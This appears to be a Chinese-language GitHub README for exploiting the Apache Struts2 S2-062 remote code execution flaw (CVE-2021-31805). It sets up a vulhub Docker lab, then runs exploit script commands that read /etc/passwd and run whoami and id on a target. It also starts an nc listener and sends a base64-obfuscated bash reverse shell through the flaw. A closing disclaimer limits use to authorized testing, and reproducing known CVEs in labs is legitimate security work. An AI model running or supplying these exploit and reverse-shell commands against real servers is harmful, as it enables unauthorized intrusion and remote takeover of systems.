







# Struts2_S2-062_CVE-2021-31805
Apache Struts2 S2-062远程代码执行漏洞(CVE-2021-31805)  | 反弹Shell
# 漏洞复现环境

docker-compose.yml
```
version: '2'
services:
 struts2:
   image: vulhub/struts2:2.5.25
   ports:
    - "8080:8080"
```
拉取镜像启动环境
```
docker-compose up -d
```
访问地址：http://1.1.1.1:8080
# 漏洞验证脚本
```
python Struts2_S2-062_CVE-2021-31805.py http://1.1.1.1:8080/index.action "cat /etc/passwd"
```

```
python Struts2_S2-062_CVE-2021-31805.py http://1.1.1.1:8080/index.action whoami
```

```
python Struts2_S2-062_CVE-2021-31805.py http://1.1.1.1:8080/index.action id
```

# 反弹Shell
## NC开启端口监听
```
nc -lvvp 8081
```


构造base64编码反弹shell脚本，利用如下网站生成：https://ir0ny.top/pentest/reverse-encoder-shell.html

## 获取Shell
```
python CVE-2021-31805_Shell.py http://1.1.1.1:8080/index.action "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvODA4MCAwPiYx}|{base64,-d}|{bash,-i}"
```


## 成功获取Shell




# 免责声明
请勿用于非法的用途，仅做安全测试，否则造成的后果与本项目无关。
注：要在正规授权情况下测试网站：日站不规范，亲人泪两行。
